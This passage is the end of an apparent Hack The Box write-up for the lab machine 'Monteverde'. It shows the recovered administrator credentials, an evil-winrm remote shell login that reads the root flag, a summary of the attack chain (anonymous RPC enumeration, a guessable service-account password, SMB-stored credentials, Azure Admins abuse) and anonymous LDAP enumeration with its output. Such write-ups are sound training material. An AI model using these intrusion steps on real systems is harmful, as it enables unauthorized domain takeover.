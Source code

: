 ```bash
Username: administrator
Password: d0m@in4dminyeah!
```

We can now login as the Administrator with these credentials.

```bash
luc@kali:~/HTB/Monteverde$ evil-winrm -i 10.10.10.172 -u administrator -p 'd0m@in4dminyeah!'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../desktop
*Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt
12909612************************
```

## TL;DR

- Anonymous RPC login results in list of usernames
- SABatchJobs accounts has its username as password
- Mhope credentials are in file accessible via SMB as SABatchJobs
- Mhope is in the Azure Admins group which can extract the administrator password

## Bonus

### SABatchJobs username via LDAP

We used `rpcclient` to get a list of usernames, but we also could've used `ldapsearch` because that also allows anonymous connections on this machine.

```bash
ldapsearch -x -h 10.10.10.172 -s base
...
rootDomainNamingContext: DC=MEGABANK,DC=LOCAL
...
luc@kali:~/HTB/Monteverde$ ldapsearch -x -h 10.10.10.172 -s sub -b 'DC=MEGABANK,DC=LOCAL'
...
# SABatchJobs, Service Accounts, MEGABANK.LOCAL
dn: CN=SABatchJobs,OU=Service Accounts,DC=MEGABANK,DC=LOCAL
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: SABatchJobs
givenName: SABatchJobs
distinguishedName: CN=SABatchJobs,OU=Service Accounts,DC=MEGABANK,DC=LOCAL
instanceType: 4
whenCreated: 20200103124846.0Z
whenChanged: 20200612193534.0Z
displayName: SABatchJobs
uSNCreated: 41070
uSNChanged: 65617
name: SABatchJobs
objectGUID:: A2gA4Cnwv0eHK29I4GEMLQ==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 132365145811324166
lastLogoff: 0
lastLogon: 132365146595387892
pwdLastSet: 132225293263922346
```